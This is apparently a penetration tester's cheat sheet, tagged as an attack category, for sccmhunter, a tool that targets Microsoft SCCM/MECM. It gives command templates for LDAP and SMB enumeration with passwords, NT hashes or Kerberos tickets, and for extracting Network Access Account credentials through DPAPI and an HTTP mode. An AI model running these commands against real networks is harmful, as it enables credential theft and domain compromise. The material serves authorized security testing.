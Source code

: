 # sccmhunter

% sccm, mecm
#plateform/linux  #target/remote  #cat/ATTACK 

## desc
```
https://github.com/garrettfoster13/sccmhunter
https://github.com/garrettfoster13/sccmhunter/wiki

.sccmhunter/logs/db/find.db
to install set dependencies on last version (i.e remove version in requirements.txt)

```

##  enum - ldap (creds)
```bash
python3 sccmhunter.py find -debug  -u <user> -p <password> -d <domain_fqdn> -dc-ip <dc_fqdn>
```

##  enum - ldap (pth)
```bash
python3 sccmhunter.py find -debug  -u <user> -hashes :<nt_hash> -d <domain_fqdn> -dc-ip <dc_fqdn>
```

##  enum - ldap (ptt)
```bash
KRB5CCNAME=<ccache>  python3 sccmhunter.py find -debug  -u <user> -no-pass -k -d <domain_fqdn> -dc-ip <dc_fqdn>
```

## enum - smb (creds)
```bash
python3 sccmhunter.py smb -debug  -u <user> -p <password> -d <domain_fqdn> -dc-ip <dc_fqdn>
```

## show - all
```bash
python3 sccmhunter.py show  -all
```

## DPAPI - naa (cred local admin)
```bash
python3 sccmhunter.py dpapi -debug  -u <user>  -p '<password>' -target <target_ip>
```


## DPAPI - naa (pth local admin)
```bash
python3 sccmhunter.py dpapi -debug  -u <user>  -hashes :<nt_hash> -target <target_ip>
```

## http - 
```bash
python3 sccmhunter.py http -debug  -u <user> -p '<password>' -d <domain_fqdn> -mp <sccm_fqdn> -dc-ip <dc_fqdn> -sleep <sleep|10> -auto
```